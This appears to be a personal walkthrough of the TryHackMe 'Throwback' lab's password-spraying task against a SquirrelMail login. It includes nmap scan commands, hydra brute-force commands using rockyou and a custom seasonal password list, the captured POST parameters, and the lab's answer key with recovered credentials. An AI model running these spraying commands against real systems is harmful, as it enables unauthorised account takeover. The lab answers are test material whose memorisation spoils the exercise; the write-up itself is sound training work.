 #  Wait, just you mean just one this time?

With my smb analysis leading to the conclusion that the HumpreyW account is a backdoor we return to guided path once again. Accoring to the instruction from the team are going to do some crediental spraying. Firstly a nice awk on the usernames from the contacts:

![awk](Screenshots/wait-usernames-awk.png)

Now just `> usersnames.txt` and remove noreply, HumphreyW, Mr Peanutbutter and Bojackhorseman to preventing wasting a much time on known and "real-people" accounts. One quick curl command later to get login parametres:
```bash
curl http://10.200.102.232/src/login.php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en_US" lang="en_US">
    <head>
<title>Throwback Hacks - Login</title>
    <script type="text/javascript" language="JavaScript">
<!--
if (self != top) { try { if (document.domain != top.document.domain) { throw "Clickjacking security violation! Please log out immediately!"; /* this code should never execute - exception should already have been thrown since it's a security violation in this case to even try to access top.document.domain (but it's left here just to be extra safe) */ } } catch (e) { self.location = "/src/signout.php"; top.location = "/src/signout.php" } }
// -->
</script>
<meta name="robots" content="noindex,nofollow" />                                                              
<link rel="shortcut icon" href="/favicon.ico" /><link media="screen" rel="stylesheet" type="text/css" href="../templates/default/css/options.css"  />                                                                         
<link media="screen" rel="stylesheet" type="text/css" href="../templates/default/css/default.css"  />          
<link media="screen" rel="stylesheet" type="text/css" href="/src/style.php?"  />                               
<link media="print" title="printerfriendly" rel="stylesheet" type="text/css" href="/css/print.css"  />         
<script type="text/javascript">                                                                                
<!--                                                                                                           
  var alreadyFocused = false;
  function squirrelmail_loginpage_onload() {
    if (alreadyFocused) return;
    var textElements = 0; var i = 0;
    for (i = 0; i < document.login_form.elements.length; i++) {
      if (document.login_form.elements[i].type == "text" || document.login_form.elements[i].type == "password") {
        textElements++;
        if (textElements == 1) {
          document.login_form.elements[i].focus();
          break;
        }
      }
    }
  }
// -->
</script>
<!--[if IE 6]>
<style type="text/css">
/* avoid stupid IE6 bug with frames and scrollbars */
body {
    width: expression(document.documentElement.clientWidth - 30);
}
</style>
<![endif]-->
</head>


<body onload="squirrelmail_loginpage_onload()">
<form name="login_form" id="login_form" action="redirect.php" method="post" onsubmit="document.login_form.js_autodetect_results.value=1">
<div id="sqm_login">
<table cellspacing="0">
 <tr>
  <td class="sqm_loginTop" colspan="2">
   <img src="/pics/throwback.png" class="sqm_loginImage" alt="Throwback Hacks Logo" width="308" height="111" /><br /><br />
Guests who require access to an email can use the following: <br />
tbhguest:WelcomeTBH1!<br /><br />  </td>
 </tr>
 <tr>
  <td class="sqm_loginOrgName" colspan="2">
   Throwback Hacks Login  </td>
 </tr>
 <tr>
  <td class="sqm_loginFieldName"><label for="login_username">
   Name:  </label></td>
  <td class="sqm_loginFieldInput">
   <input type="text" name="login_username" value="" id="login_username" onfocus="alreadyFocused=true;"  />
  </td>
 </tr>
 <tr>
  <td class="sqm_loginFieldName"><label for="secretkey">
   Password:  </label></td>
  <td class="sqm_loginFieldInput">
   <input type="password" name="secretkey" value="" id="secretkey" onfocus="alreadyFocused=true;"  />
   <input type="hidden" name="js_autodetect_results" value="0" class="sqmhiddenfield" id="js_autodetect_results" /><input type="hidden" name="just_logged_in" value="1" class="sqmhiddenfield" id="just_logged_in" />  </td>
 </tr>
  <tr>
  <td class="sqm_loginSubmit" colspan="2">
   <input type="submit" value="Login" />
  </td>
 </tr>
</table>
</div>
</form>
<!-- end of generated html -->
</body>
</html>
```

![burplogin](Screenshots/wait-burp-login.png)

From this screenshot:

```bash
login_username=^USER^&secretkey=^PASS&js_autodetect_results=1&just_logged_in=1
```

On the list of tools to try out brutespray and  is just a nice `apt-get install brutespray` away. I requires Nmap output so I'll rerun:
`nmap -sV -sC -oA throwback -p- 10.200.0-255.0/24 --min-rate 5000` with -oA for outputing all formats and also a range over the 0-255, third octet, which did not do the first time. It will take longer but that is fine for reconing more indepth in the background while I setup password spraying in medusa and hydra. Don't forget to 	`gzip -d /usr/share/wordlists/rockyou.txt.gz` the rockyou list on the Kali VM.

```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt $MACHINE_IP http-post-form '/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect' 
```

Consider that bruteforcing in this way is not very smart and the task is hinting at making a custom password list based on a set of strings:
```txt
Summer2020
Management2020
Management2018
Password2020
Throwback2020
Password123
```

I decided to use mentalist password permutation, warning getting this to work on some mahcines has  been a nightmare, especially the THM VMs, when a certain CTF requires  a wordlist > GBs!

![mentalist-one](Screenshots/mentalist-wl-one.png)

*Please waitWhatHappen for an explaination, too many mistakes occured and I had rewrite this section, but I am not going to glaze over my failings*

To create a list of users I used `awk` and then piped with `>` into a usernames.txt  

![wait-users](Screenshots/wait-usernames-awk.png)

Post file removed, no reply account to speed up bruteforcing.
```bash
hydra -L usernames.txt -P passwords.txt 10.200.102.232  http-post-form '/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect'
```

![peanut](Screenshots/wait-hydra-peanuts-away.png)

some more:

![almost](Screenshots/wait-hydra-getting-there.png)


## Answers

What is the username parameter in the POST request?  
```{toggle}
login_username
```
What is the password parameter in the POST request?  
```{toggle}
secretkey
```
What username found with hydra starts with an M?  
```{toggle}
MurphyF
```
What is the password found with hydra?
```{toggle}
Summer2020
```